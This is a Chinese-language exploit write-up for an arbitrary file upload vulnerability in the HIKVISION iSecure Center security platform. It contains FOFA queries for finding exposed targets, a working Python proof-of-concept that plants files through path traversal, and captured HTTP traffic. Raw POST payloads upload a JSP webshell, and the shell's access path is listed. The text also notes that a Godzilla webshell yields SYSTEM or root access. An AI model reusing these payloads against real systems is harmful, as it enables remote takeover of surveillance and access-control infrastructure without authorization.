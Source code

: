 **2. 漏洞描述**
HIKVISION iSecure Center综合安防管理平台是一套“集成化”、“智能化”的平台，通过接入视频监控、一卡通、停车场、报警检测等系统的设备，获取边缘节点数据，实现安防信息化集成与联动，以电子地图为载体，融合各系统能力实现丰富的智能应用。HIKVISION iSecure Center平台基于“统一软件技术架构”先进理念设计，采用业务组件化技术，满足平台在业务上的弹性扩展。该平台适用于全行业通用综合安防业务，对各系统资源进行了整合和集中管理，实现统一部署、统一配置、统一管理和统一调度。海康威视isecure center 综合安防管理平台存在任意文件上传漏洞
**3. 影响版本**

HIKVISION iSecure Center综合安防管理平台,在野。
**4. fofa查询语句**

icon_hash=“-808437027”
app=“HIKVISION-iSecure-Center”

## **5. 漏洞复现**

EXP/POC：payload.py 脚本 走127.0.0.1:8080 代理，方便burpsuit抓包。

```
#!usr/bin/env python
# *-* coding:utf-8 *-*
import sys
import requests
import string
import random
import urllib3
urllib3.disable_warnings()

proxies = {
    'http': 'http://127.0.0.1:8080', 
    'https': 'http://127.0.0.1:8080', #127.0.0.1:8080 代理，方便burpsuit抓包
}

def run(arg):
    try:
        flag=''.join(random.choices(string.ascii_uppercase + string.digits, k = 9))
        filename=''.join(random.choices(string.ascii_uppercase + string.digits, k = 10))
        vuln_url=arg+"center/api/files;.js"
        headers={'User-Agent': 'Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)',
                 'Accept': '*/*',
                 'Content-Type': 'application/x-www-form-urlencoded'}
        file = {'file': (f'../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/{filename}.txt', flag, 'application/octet-stream')}
        r = requests.post(vuln_url, files=file, timeout=15, verify=False, proxies=proxies)
        if r.status_code==200 and "webapps/clusterMgr" in r.text:

            payload=f"clusterMgr/{filename}.txt;.js"
            url=arg+payload
            r2 = requests.get(url, timeout=15, verify=False, proxies=proxies)
            if r2.status_code==200 and flag in r2.text:

                print('\033[1;31;40m')
                print(arg+f":存在海康威视isecure center 综合安防管理平台存在任意文件上传漏洞\nshell地址：{url}")
                print('\033[0m')



        else:
            print(arg+":不存在漏洞")
    except:
        print(arg+":不存在漏洞")


if __name__ == '__main__':
    url=sys.argv[1]
    run(url)
```

## **6. burpsuit抓包分析**

burpsuit 127.0.0.1:8080抓包，抓取post 包一个，get 请求包一个。
payload：请求数据包

```

POST /center/api/files;.js HTTP/1.1
Host: x.x.x.x
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 258
Content-Type: multipart/form-data; boundary=e54e7e5834c8c50e92189959fe7227a4

--e54e7e5834c8c50e92189959fe7227a4
Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/2BT5AV96QW.txt"
Content-Type: application/octet-stream

9YPQ3I3ZS
--e54e7e5834c8c50e92189959fe7227a4--
```

**payload的返回数据包。**

```
HTTP/1.1 200 
Server: openresty/1.13.6.2
Date: Fri, 14 Jul 2023 04:35:23 GMT
Content-Type: application/json;charset=UTF-8
Content-Length: 335
Connection: close
Set-Cookie: JSESSIONID=0A235873FB1C02C345345C0D36A4C709; Path=/center; HttpOnly
Content-Language: en_US
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: 0
Content-Disposition: inline;filename=f.txt

{"code":"0","data":{"filename":"../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/
```

访问漏洞链接：https://x.x.x.x/clusterMgr/2BT5AV96QW.txt;.js ，查看是否上传成功。

因为Hikvision平台使用的中间件为tomcat，修改报文和文件名，所以实现上传哥斯拉生成jsp。
宿主服务器windows和linux都可使用。windows 拿到的账户是system账户，linux为root。
Hikvison账户管理密码的后渗透操作：海康威视综合安防后渗透利用技巧



POC2

```
POST /center/api/files;.html HTTP/1.1
Host: 10.10.10.10
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%jsp的马%>
------WebKitFormBoundary9PggsiM755PLa54a--
```



 **report 任意文件上传漏洞**

```
POST /svm/api/external/report HTTP/1.1
Host: 10.10.10.10
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%jsp的马%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

**马儿路径：/portal/ui/login/..;/..;/new.jsp**